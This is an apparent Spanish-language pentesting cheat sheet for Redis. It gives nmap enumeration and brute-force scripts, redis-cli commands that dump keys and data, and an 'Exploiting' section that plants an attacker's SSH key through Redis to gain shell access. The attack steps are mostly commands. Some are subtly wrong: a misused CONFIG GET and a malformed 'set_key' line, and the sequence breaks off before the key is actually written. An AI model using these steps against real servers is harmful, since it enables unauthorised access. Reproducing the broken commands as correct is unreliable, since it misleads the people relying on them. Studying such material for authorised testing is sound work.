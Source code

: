 # REDIS

## Enumeración
### Canales activos
```nmap
nmap -p PORT --script redis-info IP
```
## Interacción con el servicio
### Conexión mediante redis-cli
```bash
redis-cli -h IP
```
### Obtener versión desde un servicio redis
```redis
INFO
```
#### Obtener los nombres de las keys desde un servicio redis
```redis
KEYS *
```
#### Listar todos los items bajo una key desde el servicio redis
```
LRANGE KEYNAME 0 -1
```
```
SMEMBERS KEYNAME
```
```
HGETALL KEYNAME
```
#### Autenticarse en el servico redis
```
AUTH username
```
#### Obtener directorio del usuario redis
```
CONFIG GET dir
```
## Ataque por fuerza bruta
### Nmap Script
```nmap
nmap -p PORT --script redis-brute IP
```
## Exploiting
### Add ssh key
* 1. Obtener el directorio de redis
```
CONFIG GET dir
```
* 2. Comprueba si tienes acceso al .ssh de el usuario redis
```
CONFIG GET /redis/dir/.ssh
```
* 3. Pasamos nuestra clave a esa carpeta
```
cat rsa_key | redis-cli -h IP -z set_key
